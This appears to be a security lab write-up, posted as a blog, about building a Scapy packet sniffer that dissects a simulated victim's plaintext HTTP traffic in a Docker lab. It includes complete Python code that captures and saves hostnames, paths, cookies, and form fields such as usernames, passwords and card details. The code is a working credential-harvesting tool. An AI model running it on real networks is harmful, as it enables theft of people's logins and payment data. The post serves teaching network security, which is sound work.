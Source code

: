 ```yaml
---
layout: post
title: Scapy HTTP Dissection
category: web_security
author: 'reo'
tags: python seclab docker scapy
mathjax: 
---
```


Here we exploit one of many vulnerabilities of HTTP to create a sniffer
which scrapes traffic sent by Alice over the network.
Our goal is to steal the information including usernames, passwords,
order numbers, etc. sent over the network. We again use the Sacpy library to
acheive this.

Similar to our [previous exercise](http://192.168.0.52:4000/crypto/2020/10/20/06-scapy.html).
we use `sniff()` from the Scapy library and filter the incoming packets to
isolate the ones we are interested in.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

Our docker-compose looks like

```yaml
version: '3'

services:
  alice:
    image: # private image
    container_name: alice
    cap_add:
      - NET_ADMIN
      - SYS_ADMIN
    dns: 1.1.1.1
    networks:
      channel:
        ipv4_address: 10.0.0.2

  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      cap_add:
        - NET_ADMIN
        - SYS_ADMIN
      volumes:
          - .:/shared
      network_mode: service:alice
      
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:alice

networks:
  channel:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/28
```

We begin with the [usual setup](/crypto/2020/10/08/05-lab.html#setup)
of our labs involving Docker.
Alice again uses nodejs and with `docker-compose up alice` runs

```javascript
const request = require('request');

const server = "e-commerce.seclab.space"

const data = {username: 'alice', password: '4l1c3', cc: '4111111111111111', exp: '12/20', code: '945'};

let do_request = function(){
    let j = request.jar();
    let req = request.defaults({jar:j});
    req.get({url: "http://" + server + "/home?lang=en", timeout: 5000}, function (err, response, body) {
        if (err) return console.log(err);
        if (response.statusCode !== 200) return console.log("[" + protocol + "] [" + response.statusCode + "] " + body);
        let protocol = response.request.uri.protocol.slice(0, -1);
        console.log("[" + protocol + "] GET response received");
        req.post(protocol + "://" + server + "/login", {form: {username: data.username, password: data.password}, timeout: 5000}, function (err, response, body) {
            if (err) return console.log(err);
            if (response.statusCode !== 200) return console.log("[" + protocol + "] [" + response.statusCode + "] " + body);
            protocol = response.request.uri.protocol.slice(0, -1);
            console.log("[" + protocol + "] POST response received");
            req.put(protocol + "://" + server + "/buy?item=lamp&currency=CAD", {form: {cc: data.cc, exp: data.exp, code: data.code}, timeout: 5000}, function (err, response, body){
                if (err) return console.log(err);
                if (response.statusCode !== 200) return console.log("[" + protocol + "] [" + response.statusCode + "] " + body);
                protocol = response.request.uri.protocol.slice(0, -1);
                console.log("[" + protocol + "] PUT response received");
                req.get({url: protocol + "://" + server + "/check", timeout: 5000}, function (err, response, body) {
                    if (err) return console.log(err);
                    protocol = response.request.uri.protocol.slice(0, -1);
                    if (response.statusCode !== 200) return console.log("[" + protocol + "] [" + response.statusCode + "] " + body);
                    console.log("[" + protocol + "] GET response received");
                });
            });
        });
    });
};

do_request();
```

***

## Sniffing Packets

***

We aren't concerned about how Mallory manages to read Alice's packets but rather
the parsing done with Scapy
but one example would be as a
[malicious gateway](/crypto/2020/10/15/06-malgat.html).
We tweak our packet filter to return only our
targeted packets.

```python
import json
from scapy.all import *
from urllib.parse import urlparse, parse_qs

load_layer('http')
load_layer('tls')
load_layer('dns')

results = []

def packet_filter(packet):
    return packet.haslayer(HTTP) and (packet.haslayer(HTTPRequest) or packet.haslayer(HTTPResponse))
```

The main driver is similar to the first Scapy exercise we did.

```python
def run(count, filepath):
    sniff(iface="eth0", lfilter=packet_filter, prn=packet_process, count=count)
    with open(filepath, "w") as file_stream:
        file_stream.write(json.dumps(results, indent=4))
```

<br>

***

## Dissecting the Packets

***

All that remains now is to rip the remaining information from the sniffed packet
and store in a json format for easy reading and parsing.

```python
def packet_process(packet):

    # will store the information from sniffed packet
    result_accumulator = dict()
    http_type = "request" if packet.haslayer(HTTPRequest) else "response"
    result_accumulator["type"] = http_type
    body = ""

    if packet.haslayer(Raw):
        body = packet[Raw].load.decode('utf-8')
    if (http_type == "request"):
        result_accumulator["host"] = packet[HTTPRequest].Host.decode('utf-8')
        result_accumulator["method"] = packet[HTTPRequest].Method.decode('utf-8')
        path = packet[HTTPRequest].Path.decode('utf-8')
        result_accumulator["path"] = path
        if "?" in path:
            query_part = path[path.index("?") + 1:]
            query_dict = parse_qs(query_part)
            for key in query_dict:
                query_dict[key] = query_dict[key][0]
            result_accumulator["query_args"] = query_dict
        if packet[HTTPRequest].Cookie != None:
            cookies = []
            cooks_comps = parse_qs(packet[HTTPRequest].Cookie.decode('utf-8'))
            for key in cooks_comps:
                append_dict = {'key' : key.strip(), 'value' : cooks_comps[key][0]}
                cookies.append(append_dict)
            result_accumulator['cookies'] = cookies
        if (body != ""):
            result_accumulator["body"] = body
            content_type = packet[HTTPRequest].Content_Type
            if ((content_type != None) and (content_type.decode('utf-8') == 'application/x-www-form-urlencoded')):
                form_comps = parse_qs(body)
                form = []
                for key in form_comps:
                    append_dict = {'key': key.strip(), 'value': form_comps[key][0]}
                    form.append(append_dict)
                result_accumulator['form'] = form

    if (http_type == "response"):
        result_accumulator["status_code"] = packet[HTTPResponse].Status_Code.decode('utf-8')
        set_cookie = packet[HTTPResponse].Set_Cookie
        if set_cookie != None:
            cookie_str = set_cookie.decode('utf-8')[:set_cookie.decode('utf-8').index(";")] if ";" in set_cookie.decode('utf-8') else set_cookie.decode('utf-8')
            split_cookie = cookie_str.split("=")
            cookie_dict = {'key' : split_cookie[0], 'value' : split_cookie[1]}
            result_accumulator['cookie'] = cookie_dict
        if (body != ""):
            result_accumulator["body"] = body

    results.append(result_accumulator)
```

Of course, the specifics for what we save depends on what we want to extract but the code featured above
serves as an example.

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

